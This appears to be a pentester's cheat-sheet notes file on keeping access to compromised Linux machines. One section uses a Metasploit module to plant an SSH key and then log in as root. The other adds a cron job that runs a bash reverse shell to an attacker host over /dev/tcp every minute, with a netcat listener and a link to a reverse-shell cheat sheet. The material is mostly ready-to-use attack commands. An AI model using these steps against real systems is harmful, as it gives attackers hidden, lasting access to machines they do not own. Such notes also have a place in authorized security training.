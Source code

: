 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i <pvt_key> <user>@<target_ip>
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'" > cron
- crontab -i cron : This adds the cron file to the cron tab
- crontab -l : This lists the cron jobs in the cron tab
- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

